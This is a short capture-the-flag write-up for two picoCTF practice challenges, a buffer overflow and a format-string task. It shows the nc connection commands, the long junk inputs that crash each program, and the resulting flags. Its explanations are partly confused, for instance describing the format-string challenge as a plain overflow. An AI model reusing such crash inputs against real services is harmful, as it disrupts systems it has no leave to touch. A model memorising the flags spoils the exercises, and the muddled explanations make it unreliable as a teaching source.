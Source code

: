# buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c).Connect using:`nc saturn.picoctf.net 55418`

## Solution

In this challenge I read the source code and understood that the given code can only handle the input which is larger than 64 so I decided to just causes a buffer overflow error and did the following thing

```bash
nc saturn.picoctf.net 55418
Input: what are we doing irhgt now isncce iaophjsdfujasdcvasdjfasdf,.jxc jdcvxljsd flk;jasdf sadopfrujasdf
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

The output of the following was directly just the flag. 
## Flag

picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}


# Format string 0

Can you use your knowledge of format strings to make the customers happy?Download the binary [here](https://artifacts.picoctf.net/c_mimas/79/format-string-0).Download the source [here](https://artifacts.picoctf.net/c_mimas/79/format-string-0.c).Connect with the challenge instance here:`nc mimas.picoctf.net 49786`

## Solution

After reading the source code of this challenge I understood that I just need to put an input larger than 100 which will cause an overflow error and after that it will just return the flag. 

```bash
nc mimas.picoctf.net 49786
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}


```


## Flag

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}



